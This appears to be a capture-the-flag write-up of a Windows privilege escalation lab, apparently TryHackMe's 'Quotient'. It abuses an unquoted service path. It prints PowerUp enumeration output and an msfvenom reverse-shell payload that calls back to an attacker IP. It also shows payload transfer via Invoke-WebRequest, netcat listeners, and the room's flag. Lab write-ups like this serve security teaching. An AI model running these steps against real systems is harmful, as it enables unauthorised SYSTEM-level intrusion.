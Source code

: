 ### IP
`10.10.156.117`

# RDP

`redesktop` didn't work for me, so I logged in with `remmina`

# Enumeration

I uploaded Powersploit's `PowerUp.ps1` to find potential privilege escalation techniques. 

I uploaded the file by starting a server:
	`python3 -m http.server`
I then downloaded the file on powershell:
	`Invoke-WebRequest -Uri "http://10.6.0.144:8000/PowerUp.ps1" -OutFile "C:\Users\Sage\PowerUp.ps1"`

### PowerUp

Luckily, there isn't any active AntiVirus here, so we can run this without any modification:

```pwsh
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

We get the following output:

```
ServiceName    : Development Service
Path           : C:\Program Files\Development Files\Devservice Files\Service.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; 
                 Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'Development Service' -Path <HijackPath>
CanRestart     : False
Name           : Development Service
Check          : Unquoted Service Paths

ServiceName    : Development Service
Path           : C:\Program Files\Development Files\Devservice Files\Service.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'Development Service' -Path <HijackPath>
CanRestart     : False
Name           : Development Service
Check          : Unquoted Service Paths

ServiceName    : Development Service
Path           : C:\Program Files\Development Files\Devservice Files\Service.exe
ModifiablePath : @{ModifiablePath=C:\Program Files\Development Files; IdentityReference=BUILTIN\Users; 
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'Development Service' -Path <HijackPath>
CanRestart     : False
Name           : Development Service
Check          : Unquoted Service Paths

ModifiablePath    : C:\Users\Sage\AppData\Local\Microsoft\WindowsApps
IdentityReference : THM-QUOTIENT\Sage
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\Sage\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\Sage\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\Sage\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

```

We can see that there is an unquoted service path vulnerability with the "Development Service" service

# Privilege Escalation

### Background

Unquoted service paths are a problem when the path has spaces in it because of the specific way that Windows tries to resolve the path.

In this case, the path of the service is `C:\Program Files\Development Files\Devservice Files\Service.exe`

Here, when the service is executed, Windows looks in the following paths when trying to execute:

1. `C:\Program.exe`
2. `C:\Program Files\Development.exe`
3. `C:\Program Files\Development Files\Devservice.exe`
4. `C:\Program Files\Development Files\Devservice Files\Service.exe`

Thus, we just need to find a writeable path and put our payload there.

I noticed that `C:\Program Files\Development Files\` was writeable, so I put my payload there

### Payload Generation

Running `systeminfo` on the machine shows that it is 64-bit windows machine.

Thus, we can generate a payload with a tcp reverse shell with the following command:

	`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.0.114 LPORT=1337 -f exe > Devservice.exe`

We can upload this payload the same way as we did before:

	`Invoke-WebRequest -Uri "http://10.6.0.144:8000/Devservice.exe" -OutFile "C:\Program Files\Development Files\Devservice.exe"`

This, when started, will provide us a shell as the user it was started with.

### Payload Execution

When we look at the `Services` gui utility on windows or look at the "Development Service" information with `sc qc "Development Service"` in cmd.exe, we can see the following information:

```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: Development Service
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Development Files\Devservice Files\Service.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Developmenet Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

```


`AUTO_START` indicates that this will start automatically on boot. 
`LocalSystem` indicates that this will start as the system user, which has admin access.

Thus, we can start a listener for the reverse shell on our local machine:
	`nc -lvnp 13367`

You can also get a (somewhat) interactive reverse shell with
	`rlwrap nc -lvnp 1337`

When we restart the machine, we get a reverse shell.
`whoami` shows `nt authority\system`

The flag is in `C:\Users\Administrator\Desktop\flag.txt`: `THM{USPE_SUCCESS}`